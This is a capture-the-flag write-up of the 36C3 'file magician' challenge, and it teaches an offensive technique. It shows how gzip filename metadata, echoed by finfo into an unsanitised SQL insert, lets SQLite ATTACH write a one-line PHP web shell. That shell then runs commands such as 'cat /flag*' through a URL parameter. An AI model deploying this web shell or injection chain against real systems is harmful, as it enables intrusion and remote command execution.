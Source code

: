 ```yaml
---
title: 36C3 Senior CTF - SQLi through file metadata to PHP RCE - file magician 
description: Performing SQL injection using file metadata to earn PHP RCE
categories: ctf 36c3 senior
author: Xh4H
tags: 36c3 senior ctf file magician file_magician sqli sqli_injection php php_rce rce remote code execution
---
```


**Challenge description**
```
Web
Difficulty: easy (133 solves): round(1000 · min(1, 10 / (9 + [133 solves]))) = 70 points

Finally (again), a minimalistic, open-source file hosting solution.

```

**Action**

We are given the following files:

<div style="text-align:center"><img src="/assets/images/36c3/files_1.png"/></div>

**index.php** with the code that we will have to analyze, a **Dockerfile** to set up our service locally, and a folder with required stuff for the said service.

Let's start by setting up a docker:

`echo 'hxp{FLAG}' > flag.txt && docker build -t file_magician . && docker run -ti -p 8000:80 file_magician`

<div style="text-align:center"><img src="/assets/images/36c3/docker_setup1.png"/></div>

Docker is now running on port 8000.

Let's read the php code now:

<div style="text-align:center"><img src="/assets/images/36c3/code_review1.png"/></div>

The attack vector is in the following line of code:

```php
$s = "INSERT INTO upload(info) VALUES ('" .(new finfo)->file($_FILES['file']['tmp_name']). " ');";
```

We have to perform SQLi using file metadata. After some research, `.gz` (gunzip) files have an interesting metadata string that will help us a lot.

Here is an example:

<div style="text-align:center"><img src="/assets/images/36c3/gunzip1.png"/></div>

Check how running `file` over the created gunzip displays the name of the original file **between double quotes**, which will break the SQL sentence. In the following image we can see in red the double quotes that will break the SQL sentence, in gray is our file metadata and finally in yellow, the previous file name, where will be inject our SQL injection.

<div style="text-align:center"><img src="/assets/images/36c3/carbon_1.png"/></div>

So, I ran `nano` over the file and edited the previous file name into my SQLi sentence.

_The green marked text is the SQL sentence that I will use to get RCE_

<div style="text-align:center"><img src="/assets/images/36c3/sqli_create.png"/></div>

My php code will be
```php
<?=`$_GET[j]`?>
```

Explanation of the code above:

- `<?`: PHP opening tags.
- `=`: used to echo the output.
- \`: used to execute a string (as if we were using system function).
- `$_GET[j]`: used to retrieve the `j` url parameter
- `>?`: PHP closing tags.

Notice how I am attaching the DB on a file called `k.php`, if the file doesn't exist, it will be created on the current directory, which, in our case, is a random folder:

```php
if( ! isset($_SESSION['id'])) {
    $_SESSION['id'] = bin2hex(random_bytes(32));
}

$d = '/var/www/html/files/'.$_SESSION['id'] . '/';
@mkdir($d, 0700, TRUE);
chdir($d) || die('chdir');
```

**The SQL sentence max char length was 95, so I had to create two different gz, create.gz and insert.gz**

In `create.gz` I attach a new database to a php file and I create a table `p` with a column `d text` that will store my php code.

In `insert.gz` I attach the php sql connection into the newly created database and insert the php code:

<div style="text-align:center"><img src="/assets/images/36c3/sqli_insert.png"/></div>

We upload both files to the service and access our php file as following:

- create.gz to create the DB
- insert.gz to insert our code

Click on the second file:

<div style="text-align:center"><img src="/assets/images/36c3/service_1.png"/></div>

It will bring us to a link like this `http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/2`

Change the last 2 with `k.php` and we will be able to execute PHP code using the 
```php
`$_GET[j]`
```
that we placed before, as we will be accessing a php file that will be executed by the server. Use `j` as url parameter to execute any command within the host system.

`http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/k.php?j=id`

<div style="text-align:center"><img src="/assets/images/36c3/rce_1.png"/></div>

In order to find the flag, as it was generated with random chars in its name, we can use * to expand chars over a file on the system such as `cat /flag*`:

`http://x.x.x.x:8000/files/70d80f242200060e52e596c9a324407287f40456164726b7d1278c06657e2dd1/k.php?j=cat%20/flag*`

<div style="text-align:center"><img src="/assets/images/36c3/rce_2.png"/></div>

**Flag**: hxp{I should have listened to my mum about not trusting files about files}


Thanks for reading :)

<script src="https://www.hackthebox.eu/badge/21439"></script>
